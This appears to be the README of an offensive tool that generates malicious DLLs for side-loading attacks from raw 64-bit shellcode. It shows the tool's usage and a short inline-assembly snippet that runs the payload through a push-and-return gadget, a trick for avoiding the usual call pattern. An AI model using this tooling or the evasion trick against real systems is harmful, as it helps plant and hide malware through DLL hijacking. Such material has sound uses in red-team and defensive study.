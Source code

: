 # MaliciousDLLGenerator

DLL Generator for side loading attack

### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Credit
Mr.Un1k0d3r RingZer0 Team
